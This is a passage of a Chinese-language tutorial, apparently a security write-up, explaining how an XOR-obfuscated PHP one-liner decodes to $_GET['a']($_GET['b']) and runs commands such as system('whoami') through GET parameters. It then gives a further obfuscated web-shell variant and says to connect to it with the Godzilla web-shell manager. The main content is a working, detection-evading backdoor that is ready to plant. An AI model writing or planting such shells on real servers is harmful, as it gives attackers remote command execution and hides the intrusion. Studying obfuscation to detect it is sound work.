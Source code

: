 这时候，就可以执行 GET 传参：`?_=system&__=whoami` 来执行 whoami 命令

由 8.1 讲到 PHP 中如何异或，我们就先把最前面这部分拆出来看看

```bash
<?=~$_='$<>/'^'{{{{';
//即 '$<>/' ^ '{{{{'
//即 "$<>/" 这部分字符串与后面 "{{{{" 这部分字符串异或
```

所以由我们前面所学的知识，加上自己动手实践一下，可以发现异或结果为 `_GET`

所以整个 PHP 语句解密后，再将 `_` 替换为 `a`，将 `__` 替换为 `b`，则原 PHP 转化为：

```bash
$_GET['a']($_GET['b'])
```

当我们给 `a` 传 `system`，给 `b` 传 `whoami`，原式就会变成这样

```bash
system('whoami');
```

既然上面的代码你看懂了，那不妨看一下下面魔改的代码：

```bash
<?=~$_='$<>/'^'{{{{';$___='$}4(/' ^ '{-{{{';@${$_}[_](@${$___}[__]);
```

直接用 Godzilla 哥斯拉来连接，如下：

[![](assets/1707954023-e81279e4ae7124e926c5cd6ac3cbfa94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205143637-e9ad2b48-c3f0-1.png)
